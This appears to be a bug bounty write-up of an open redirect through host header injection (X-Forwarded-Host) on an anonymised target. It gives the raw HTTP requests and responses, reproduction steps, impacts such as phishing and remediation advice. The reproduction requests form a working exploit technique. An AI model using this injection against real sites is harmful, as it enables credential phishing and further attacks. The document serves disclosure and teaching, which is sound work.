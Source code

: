 # Open-redirect-On-XYZ.com-Via-X-Forwarded-Host-Header
xyz.com is the made up website domain of a company I found the vulnerability on Hackerone , will keep the real name confidential.

# Description
I noticed that the below requests was vulnerable to an open redirect via the host header injection, because the url redirection link is gotten from the host header value and it is not verified thus allowing me to redirect a user to another website similar to the login page and steal user credentials.


Request
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
Response
-------------------snip--------------------------
<html><body>You are being <a href="https://atlas.xyz.tools/auth/saml?redirectUrl=https://atlas.xyz.tools">redirected</a>.</body></html>

```

# Steps To Reproduce

I will be using google.com and facebook.com as an example of a malicious hacker website.

STEP 1 : Visit atlas.xyz.com and capture the request below with burpsuite and send to the repeater.
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
```
STEP 2: Modify the request by adding X-Forwarded-Host: facebook.com or google.com.

Note: This can also be done by modifying the Host header value but when X-Forwarded-Host Header is present within the request, the redirect url is gotten from the value of the X-Forwarded-Host Header instead of the Host Header.


The request when modified should be as this below :
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
X-Forwarded-Host: facebook.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
send the request via the repeater , response should be
-----------snip-------------------------------
<html><body>You are being <a href="https://facebook.com/auth/saml?redirectUrl=https://facebook.com">redirected</a>.</body></html>
```

</br>
<div align="center">
  <img src="Kali_2020_x64_Customized_by_zSecurity_v1.2__Running__-_Oracle_VM_VirtualBox_25_02_2022_05_02_08.png" alt="Project Image">
</div>


Following the redirection.......
```plaintext
GET /auth/saml?redirectUrl=https://facebook.com HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
Upgrade-Insecure-Requests: 1
Host: facebook.com
```

Another request I was able to get a redirect easily was with the request below
```plaintext
GET / HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Host: facebook.com
--------------------snip------------------------
```
Response
```plaintext
------------------snip--------------------------------------
<a class="btn btn-primary btn-lg" role="button" id="sign_in" href="https://facebook.com/login">Sign in</a>
```
</br>
<div align="center">
  <img src="Burp_Suite_Community_Edition_v2020.12.1_-_Temporary_Project_27_02_2022_12_04_48.png" alt="Project Image">
</div>
</br>
Request the response in browser session
<p>As soon as the sign in button is clicked the user is redirected to a facebook.com instead of atlas.xyz.tools/login.</p>

# Remediation

This open redirection is possible because of unvalidated inputs gotten from the header requests. The redirection url is gotten from the host header but when the X-Forwarded-Host header is present, it can override the Host header value even if it is the correct redirection url thus the way to prevent this attack is to disable the X-Forwarded-Host Header and validate the host header value by maybe a whitelist.

# Impact

If you have an open redirection vulnerability, it makes many other attacks possible:

1). <b>Phishing :</b> The most obvious way to use an open redirect is to steer the victim away from the original site to a site that looks the same, steal user credentials, and then return to the vulnerable website as if nothing happened.

2). <b>Cross-site Scripting (XSS):</b> If the redirect allows the use of data: or javascript: protocols and the client supports such protocols in redirects, it makes it possible for the attacker to perform an XSS attack.

3). <b>Server-Side Request Forgery (SSRF):</b> Open redirects may be used to evade SSRF filters.

4). <b>Content-Security-Policy bypassing:</b> If you use CSP to protect against XSS and one of the whitelisted domains has an open redirect, this vulnerability may be used to bypass CSP.

5). <b>CRLF Injection:</b> If the redirection parameter allows line breaks, the attacker may try to perform response header splitting.

# Summary

Redirects are a common part of website operations but can cause application security risks when carelessly implemented.

An open redirect endpoint accepts un-trusted inputs as the target URL, allowing attackers to redirect users to a malicious website and opening up a wide array of attack vectors. Exploitation can be as simple as manually changing a URL parameter value to an attacker-controlled site.
